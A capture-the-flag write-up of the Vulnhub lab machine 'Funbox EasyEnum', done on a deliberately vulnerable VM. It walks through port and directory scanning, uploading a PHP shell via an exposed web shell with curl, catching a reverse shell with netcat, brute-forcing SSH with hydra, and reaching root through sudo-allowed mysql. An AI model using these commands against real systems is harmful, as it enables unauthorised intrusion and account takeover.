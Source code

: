 ```yaml
---
title: Vulnhub - Funbox EasyEnum
description: My writeup on Funbox EasyEnum box.
categories:
 - vulnhub
tags: vulnhub gobuster curl web-shell hydra mysql
---
```


![](https://i.imgur.com/6ghxvXy.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Funbox EasyEnum**  | 
| Series :      | **Funbox**           |
| Difficulty :  | **Easy/Medium**      |   
| Release Date :| **19 Sep 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [@0815R2d2](https://twitter.com/@0815R2d2){:target="_blank"}      | 
| Download :    | [Funbox EasyEnum](https://www.vulnhub.com/entry/funbox-easyenum,565/){:target="_blank"}      | 

## Summary

Funbox EasyEnum was a pretty easy box. We start by finding a php web shell so this is pretty straightforward and we get a shell as www-data. First privesc is about brute force on user goat & final one we exploit mysql to spawn a root shell. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17 
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 02:01 EEST
Nmap scan report for funbox7.zte.com.cn (192.168.1.17)
Host is up (0.00049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:DE:A0:BD (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 02:01 EEST
Nmap scan report for funbox7.zte.com.cn (192.168.1.17)
Host is up (0.00035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Port 80 has the default apache2 page, without wasting more time lets fire up a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/javascript (Status: 301)
/mini.php (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/phpmyadmin (Status: 301)
```

Lot of stuff, `/mini.php` is a php web shell. We can upload our files here:

![](https://i.imgur.com/Uj96Eun.png)

## Shell as www-data

I like to use the CLI way to do my stuff, i'll show you a `curl` trick to upload files. First let's take a look into the html code we have to find the `name`.

```html
<input type="file" name="file"/>
```

So our command will be:

```
$ curl -s -F "file=@shell.php" http://$ip/mini.php > /dev/null
````

Our file successfully uploaded:

![](https://i.imgur.com/Ug5xwof.png)

Now we can simply execute it & get a shell back:

```
$ curl -s http://$ip/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as goat

I enumerated a lot but i wasn't able to find something exploitable. Anyway system has lot of users:

```
www-data@funbox7:/$ cat /etc/passwd | cut -d ':' -f 1,7 | grep "bash\|sh" | grep -v "sshd"
root:/bin/bash
karla:/bin/bash
harry:/bin/bash
sally:/bin/bash
goat:/bin/bash
oracle:/bin/bash
lissy:/bin/sh
```

I tried SSH brute force with all of them only user's `goat` password found:

```
$ hydra -l goat -P /usr/share/wordlists/rockyou.txt $ip ssh

[DATA] attacking ssh://192.168.1.16:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 14344223 to do in 1320:50h, 16 active
[STATUS] 134.67 tries/min, 404 tries in 00:03h, 14344000 to do in 1775:15h, 16 active
[STATUS] 117.29 tries/min, 821 tries in 00:07h, 14343583 to do in 2038:17h, 16 active
[22][ssh] host: 192.168.1.16   login: goat   password: thebest
1 of 1 target successfully completed, 1 valid password found
```

```
www-data@funbox7:/$ su - goat
Password: thebest

goat@funbox7:~$ whoami;id
goat
uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)
```

## Shell as root

`sudo -l` shows that we can execute `mysql` as root:

```
goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql
```

We can simply exploit that using the `system` function of `mysql`.

```
goat@funbox7:~$ sudo mysql -s
mysql> system bash
root@funbox7:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

## Reading the flag(s)

![](https://i.imgur.com/M5DQa7b.png)

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
